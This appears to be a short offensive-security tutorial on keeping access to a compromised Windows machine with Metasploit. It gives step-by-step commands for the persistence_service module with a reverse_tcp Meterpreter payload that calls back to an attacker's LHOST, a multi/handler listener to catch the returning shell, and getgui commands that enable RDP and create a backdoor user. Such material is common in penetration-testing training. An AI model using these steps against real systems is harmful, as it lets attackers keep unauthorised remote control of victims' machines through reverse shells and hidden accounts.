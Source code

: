 Persistence is a key post-exploitation step that allows an attacker to maintain access to a compromised system even after it has been rebooted or the initial session has been closed.



## Metasploit Persistence Service

1. Gain a Meterpreter session on the target machine 
2. Load the `persistence_service` module
```bash
use exploit/windows/local/persistence_service
```

3. Set Required Options

- `SESSION`: The session ID of the active Meterpreter session.
- `PAYLOAD`: The payload you want to execute persistently (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The attacker's IP address to receive the connection.
- `LPORT`: The port on which the listener will be running.

4. Run the module

#### Recovering Access After Using the Persistence Module
After deploying the persistence module in Metasploit, if the session ends unexpectedly (due to reboot or network loss), you can regain access using the `multi/handler` module. The backdoor created by the module ensures that the payload will reconnect to the attacker's machine whenever executed on the target.
```bash
use multi/handler
set payload <payload_type>       
set LHOST <attacker_ip>         
set LPORT <listening_port>       
exploit
```


## Metasploit Persistence via RDP
1. **Gain a Meterpreter Session** Ensure you have an active Meterpreter session on the target machine.
  
2. **Enable RDP on the Target** Use the `getgui` Meterpreter script to enable RDP on the target system:
```bash
run getgui -e
```
This command enables the Remote Desktop Service on the target system.

3. **Create a New User for Persistence** To create a new user for persistent RDP access, specify a username and password:
```bash
run getgui -u <username> -p <password>
```

4. **Validate RDP Access** After enabling RDP and creating a user, you can test your access using an RDP client:
```bash
rdesktop <target_ip> -u <username> -p <password>
```